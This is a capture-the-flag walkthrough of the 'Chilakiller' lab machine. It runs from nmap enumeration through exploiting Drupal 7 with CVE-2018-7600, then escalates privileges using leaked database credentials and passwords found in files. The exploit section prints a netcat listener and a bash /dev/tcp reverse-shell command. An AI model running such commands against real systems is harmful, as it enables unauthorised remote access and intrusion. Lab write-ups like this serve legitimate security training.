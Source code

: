 # Chilakiller CTF

## Enumeration: 

Start off with an NMAP scan

```vim
nmap -Pn -sV -sC -v 10.150.150.182
```

We get an output that looks like this:

```vim
Nmap scan report for 10.150.150.182
Host is up (0.14s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 8e0a83306ba5ef12814a8e66c6f42212 (RSA)
|   256 ef775ea95919def8c3f31c2e73098a8f (ECDSA)
|_  256 b3be3b050cf76224ce1b5c5bdfccfc23 (ED25519)
80/tcp   open  http       nginx 1.4.0 (Ubuntu)
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Last-Modified: Sat, 01 Aug 2020 20:47:30 GMT
|     ETag: "264-5abd7039b3849"
|     Accept-Ranges: bytes
|     Content-Length: 612
|     Vary: Accept-Encoding
|     Connection: close
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Welcome to nginx!</title>
|     <style>
|     body {
|     width: 35em;
|     margin: 0 auto;
|     font-family: Tahoma, Verdana, Arial, sans-serif;
|     </style>
|     </head>
|     <body>
|     <h1>Welcome to nginx!</h1>
|     <p>If you see this page, the nginx web server is successfully installed and
|     working. Further configuration is required.</p>
|     <p>For online documentation and support please refer to
|     href="http://nginx.org/">nginx.org</a>.<br/>
|     Commercial support is available at
|     href="http://nginx.com/">nginx.com</a>.</p>
|     <p><em>Thank you for using nginx.</em></p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Allow: POST,OPTIONS,HEAD,HEAD,GET,HEAD
|     Content-Length: 0
|     Connection: close
|     Content-Type: text/html
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Content-Length: 299
|     Connection: close
|     Content-Type: text/html; charset=iso-8859-1
|     <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|     <html><head>
|     <title>400 Bad Request</title>
|     </head><body>
|     <h1>Bad Request</h1>
|     <p>Your browser sent a request that this server could not understand.<br />
|     </p>
|     <hr>
|     <address>nginx 1.4.0 (Ubuntu) Server at 127.0.1.1 Port 80</address>
|_    </body></html>
|_http-server-header: nginx 1.4.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Welcome to nginx!
8080/tcp open  http-proxy nginx 1.4.0 (Ubuntu)
|_http-server-header: nginx 1.4.0 (Ubuntu)
|_http-title: Welcome to nginx!
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Last-Modified: Sat, 01 Aug 2020 20:47:30 GMT
|     ETag: "264-5abd7039b3849"
|     Accept-Ranges: bytes
|     Content-Length: 612
|     Vary: Accept-Encoding
|     Connection: close
|     Content-Type: text/html
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <title>Welcome to nginx!</title>
|     <style>
|     body {
|     width: 35em;
|     margin: 0 auto;
|     font-family: Tahoma, Verdana, Arial, sans-serif;
|     </style>
|     </head>
|     <body>
|     <h1>Welcome to nginx!</h1>
|     <p>If you see this page, the nginx web server is successfully installed and
|     working. Further configuration is required.</p>
|     <p>For online documentation and support please refer to
|     href="http://nginx.org/">nginx.org</a>.<br/>
|     Commercial support is available at
|     href="http://nginx.com/">nginx.com</a>.</p>
|     <p><em>Thank you for using nginx.</em></p>
|     </body>
|     </html>
|   HTTPOptions: 
|     HTTP/1.1 200 OK
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Allow: POST,OPTIONS,HEAD,HEAD,GET,HEAD
|     Content-Length: 0
|     Connection: close
|     Content-Type: text/html
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Date: Tue, 06 Dec 2022 18:03:38 GMT
|     Server: nginx 1.4.0 (Ubuntu)
|     Content-Length: 299
|     Connection: close
|     Content-Type: text/html; charset=iso-8859-1
|     <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
|     <html><head>
|     <title>400 Bad Request</title>
|     </head><body>
|     <h1>Bad Request</h1>
|     <p>Your browser sent a request that this server could not understand.<br />
|     </p>
|     <hr>
|     <address>nginx 1.4.0 (Ubuntu) Server at 127.0.1.1 Port 80</address>
|_    </body></html>
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-open-proxy: Proxy might be redirecting requests
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service
```

This shows us that port 22, port 80 and port 8080 are open. By the looks of it, port 80 and 8080 point to the same website. In order to proceed, we'll have to do directory fuzzing to see if there are any other pages that can be accessed.

Dirbuster reveals 2 interesting directories, `/manual` and `/restaurante` :
1. `/manual` is a Apache HTTP Server documentation
2. `/restaurante` seems to be a webapp for a restaurant, but is in spanish.

Since `/manual` doesn't seem to help me in any way, I decide to translate `/restaurante` and try to figure out if there could be any vulnerabilities.

## Exploit:

Looking into the source code for `/restaurante/index.php` , we come across the name for the CMS being used and its version number: Drupal 7

A quick look into searchsploit brings many exploits to our attention, however the one which worked for me happened to be this one:  [CVE-2018-7600](https://github.com/pimps/CVE-2018-7600)

Run `nc -lvnp 9000` and then run the following command:
```vim
python script.py -c 'echo "bash -i >& /dev/tcp/<IP_ADDR>/9000 0>&1" | bash' http://10.150.150.182/restaurante/
```

This lets us in to the machine as user `www-data` . You can find FLAG4 in `/var/www/html/restaurante/freegift.html` . 

FLAG1 can be found in `/var/www/html/test-site/test-2/FLAG1.txt` .

## Priv-Esc:

### www-data to user1:

Since running linpeas.sh wasn't working very well, I decided to look manually for any kind of config files or passwords. I come across the file `/var/www/html/restaurante/sites/default/settings.php` which contained the following code:

```php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupaldb',
      'username' => 'drupal',
      'password' => 'EstaContraNoesTanImp0rtant3!!!',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => 'ptd_',
    ),
  ),
);
```

You can log into the database with `mysql -u drupal -p` and enter the password shown above. We can find a hash in ptd_users table.

As far as I could tell, this is a Drupal7 hash. However trying to crack this hash will give you the password as `admin` . This is incorrect as the password is actually `user1` (same as the name of the other user). I tried using `john` and `hashcat` to crack the hash with other wordlists but didn't have any luck so I am not sure as to what happened there.

Run `su user1` with the password `user1` and we can login.

FLAG3 can be found in `/home/user1/FLAG3.txt`

### user1 to root:

Run `id` on user1:

```vim
uid=1000(user1) gid=1000(user1) groups=1000(user1),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(bluetooth),117(scanner),1001(ch)
```

user1 seems to be in many groups, my first action was to look at every group and see if I can find anything interesting. While looking at `ch` group, I found the following:

```vim
user1@chilakiller:~$ find / -group ch 2>/dev/null
/etc/openvpn/client/.config/.5OBdDQ80Py

user1@chilakiller:~$ cat /etc/openvpn/client/.config/.5OBdDQ80Py
hUqJ2
ChilaKill3s_Tru3_L0v3R
```

`ChilaKill3s_Tru3_L0v3R` seemed to look like a password so I tried `su root` and it gave me access.

FLAG2 can be found in: `/root/FLAG2.txt`
